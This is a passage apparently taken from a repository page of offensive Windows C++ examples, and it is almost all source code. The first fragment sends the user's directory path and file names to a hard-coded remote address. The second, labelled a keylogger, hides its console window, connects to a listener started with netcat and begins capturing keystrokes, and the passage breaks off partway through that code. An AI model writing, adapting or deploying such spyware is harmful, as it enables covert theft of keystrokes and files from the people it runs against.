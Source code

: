 ```cpp
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    char* pPath = userDirectory();
    send(server, pPath, sizeof(pPath), 0);

    DIR *dir;
    struct dirent *ent;
    if ((dir = opendir (pPath)) != NULL) {
        while ((ent = readdir (dir)) != NULL) {
        send(server, ent->d_name, sizeof(ent->d_name), 0);
        }
        closedir (dir);
    } else {
        perror ("");
    }
    closesocket(server);
    WSACleanup();
}
```

### Example: keylogger that sends any collected information back

Listen for an incoming connection with `nc -lvp 5555`:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

        while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) == -32767) {
                        char buffer[2];
                        buffer[0] = KEY;
```